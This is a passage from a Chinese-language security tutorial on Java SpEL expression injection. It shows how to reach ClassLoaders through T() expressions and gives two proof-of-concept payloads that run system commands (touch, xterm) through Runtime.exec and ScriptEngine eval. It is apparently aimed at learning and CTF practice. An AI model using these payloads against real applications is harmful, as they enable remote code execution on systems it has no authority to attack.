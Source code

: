 JAVA

```
T(org.springframework.expression.Expression).getClass().getClassLoader()
```

假设使用 thyemleaf 的话会有`org.thymeleaf.context.AbstractEngineContext`

JAVA

```
T(org.thymeleaf.context.AbstractEngineContext).getClass().getClassLoader()
```

假设有一个自定义的类那么可以:

JAVA

```
T(com.ctf.controller.Demo).getClass().getClassLoader()
```

类比较多，不过多叙述，感觉 CTF 里面可能会出这种

#### 通过内置对象加载 URLClassLoader

这里在 [0c0c0f](https://mp.weixin.qq.com/s?__biz=MzAwMzI0MTMwOQ==&idx=1&mid=2650174018&sn=94cd324370afc2024346f7c508ff77dd)18 年的一个文章学到了两个 poc，部分截图如下

![img](https://drun1baby.top/2022/09/23/Java-%E4%B9%8B-SpEL-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/AppClassLoader.png)

JAVA

```
{request.getClass().getClassLoader().loadClass(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null).exec(\"touch/tmp/foobar\")}

username[#this.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec('xterm')")]=asdf
```

request、response 对象是 Web 项目的常客,通过第一个 poc 测试发现在 Web 项目如果引入了 SpEL 的依赖，那么这两个对象会自动被注册进去。

像这样，会发现它调用的是 URLClassLoader

![img](https://drun1baby.top/2022/09/23/Java-%E4%B9%8B-SpEL-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/URLClass.png)

#### 字符串 bypass

以下内容参考：[SpEL注入RCE分析与绕过 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/9245#toc-13)

- 我个人的感觉是实现起来有点…………嗯……不太靠谱，这里本地复现也失败了，有兴趣的师傅们可以看一下。

## 0x05 关于 SpEL 表达式的实战

参考项目，首先是输入点必须可控，后续会复现几个漏洞看看。

[Drun1baby/JavaSecurityLearning](https://github.com/Drun1baby/JavaSecurityLearning)

## 0x06 参考资料

https://xz.aliyun.com/t/9245
[SpEL表达式注入漏洞总结](https://johnfrod.top/安全/spel表达式注入漏洞总结/)